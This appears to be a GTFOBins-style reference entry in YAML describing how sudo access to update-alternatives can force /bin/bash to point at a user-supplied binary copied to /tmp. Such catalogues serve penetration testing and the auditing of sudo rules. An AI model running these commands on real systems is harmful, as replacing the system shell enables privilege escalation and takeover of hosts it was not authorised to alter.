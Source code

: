 ```yaml
---
functions:
  sudo:
    - description: Replace existing binary with symlinks pointing to user supplied binary
      code: |
        cp file_to_replace_bash /tmp/bash
        sudo update-alternatives --force --install /bin/bash bash /tmp/bash 1
---
```

